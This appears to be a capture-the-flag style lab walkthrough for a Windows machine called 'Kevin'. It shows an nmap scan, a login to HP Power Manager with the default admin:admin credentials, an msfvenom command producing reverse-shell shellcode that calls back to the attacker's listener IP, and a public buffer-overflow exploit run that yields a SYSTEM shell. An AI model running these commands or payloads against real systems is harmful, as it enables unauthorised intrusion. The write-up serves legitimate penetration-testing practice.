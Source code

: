 # Kevin

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.160.45
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-13 14:02 +08
Nmap scan report for 192.168.160.45
Host is up (0.17s latency).
Not shown: 65523 closed tcp ports (conn-refused)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
3573/tcp  open  tag-ups-1
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49158/tcp open  unknown
49159/tcp open  unknown
```

### HP Power Manager --> RCE

Port 80 is running HP Power Manager and it looks vulnerable:

<figure><img src="../../../.gitbook/assets/image (3888).png" alt=""><figcaption></figcaption></figure>

`admin:admin` works in logging in:

<figure><img src="../../../.gitbook/assets/image (3887).png" alt=""><figcaption></figcaption></figure>

There are a couple of exploits available for this software:

```
$ searchsploit HP Power Manager
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Flying Dog Software Powerslave 4.3 Portalmanager - 'sql_id | php/webapps/23163.txt
Hewlett-Packard (HP) Power Manager Administration - Remote | windows/remote/16785.rb
Hewlett-Packard (HP) Power Manager Administration Power Ma | windows/remote/10099.py
HP Power Manager - 'formExportDataLogs' Remote Buffer Over | cgi/remote/18015.rb
----------------------------------------------------------- ---------------------------------
```

All of them are forms of Buffer Overflow, and I used `10099.py` to exploit it. FIrst, generate the shellcode needed with the bad characters and encoding given in the exploit:

{% code overflow="wrap" %}
```
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.191 LPORT=4444 -b "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a" -e x86/alpha_mixed -f c
```
{% endcode %}

Then, replace the shellcode within the Python script and start a listener port.&#x20;

```
$ python2 10099.py 192.168.160.45
HP Power Manager Administration Universal Buffer Overflow Exploit
ryujin __A-T__ offensive-security.com
[+] Sending evil buffer...
HTTP/1.0 200 OK

[+] Done!
[*] Check your shell at 192.168.160.45:4444 , can take up to 1 min to spawn your shell
```

After running it, we would get a shell as the SYSTEM user:

![](<../../../.gitbook/assets/image (1104).png>)

